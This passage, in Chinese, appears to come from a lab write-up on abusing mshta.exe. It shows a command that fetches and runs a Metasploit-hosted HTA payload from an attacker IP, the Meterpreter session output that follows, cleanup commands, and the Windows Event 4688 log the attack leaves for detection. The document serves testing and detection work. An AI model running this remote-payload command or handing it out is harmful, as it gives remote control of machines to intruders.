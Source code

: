 **说明**：
- 配置Metasploit托管HTA文件，监听反向TCP连接（端口4444）。

#### 3. 靶机执行Payload

**命令**：
```cmd
mshta.exe http://192.168.126.146:8080/Uj6Tcv.hta
```

**结果**：
- `mshta.exe`下载并执行`Uj6Tcv.hta`，触发Meterpreter Payload。
- 攻击机接收会话：
  ```
  [*] 192.168.126.156 hta_server - Delivering Payload
  [*] Sending stage (180291 bytes) to 192.168.126.156
  [*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.156:50232) at 2023-10-01 10:00:00 +0800
  meterpreter > getuid
  Server username: WIN-SRV-2012\Administrator
  ```

**注意**：
- 靶机需安装.NET Framework 3.5以支持PowerShell执行。
- 可能因安全策略（如AMSI或PowerShell限制）失败，需调整靶机配置。

#### 4. 清理

**靶机**：
```cmd
taskkill /IM mshta.exe /F
taskkill /IM powershell.exe /F
```

**攻击机**：
- 关闭Metasploit会话：`exit`

## 测试留痕

### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: WIN-SRV-2012
描述:
已创建新进程。

进程信息:
  新进程 ID: 0xb20
  新进程名称: C:\Windows\System32\mshta.exe
  令牌提升类型: TokenElevationTypeDefault (1)
  创建者进程 ID: 0x13c
  创建者进程名称: C:\Windows\System32\cmd.exe
  进程命令行: mshta.exe http://192.168.126.146:8080/Uj6Tcv.hta
```
